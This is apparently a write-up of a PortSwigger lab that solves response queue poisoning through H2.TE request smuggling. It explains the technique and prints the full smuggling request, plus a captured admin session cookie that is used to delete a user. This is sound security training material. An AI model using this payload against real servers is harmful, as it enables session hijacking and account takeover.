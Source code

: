 # [Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

## response queue poisoning

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

The correct response from the back-end is then left without a matching request. This cycle is repeated every time a new request is forwarded down the same connection to the back-end.

![stealing-other-users-responses.jpg](./../img/stealing-other-users-responses.jpg)

## Detected H2.TE

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension (HTTP 2 probe): detected `HTTP/2 TE desync v10a h2path`

## Attack

repeatedly send this request until a 302 response is captured:

```http
POST / HTTP/2^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
Accept-Encoding: gzip, deflate^M$
Accept: */*^M$
Accept-Language: en-US;q=0.9,en;q=0.8^M$
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36^M$
Cache-Control: max-age=0^M$
Content-Type: application/x-www-form-urlencoded^M$
Transfer-Encoding: chunked^M$
^M$
0^M$
^M$
GET /notfoundforsure HTTP/1.1^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
^M$

______________________________
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=JLK8H0shXHXoB6ozjWIyBtkHEqFlIoCW; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

use captured session to access admin account, delete carlos account => solved
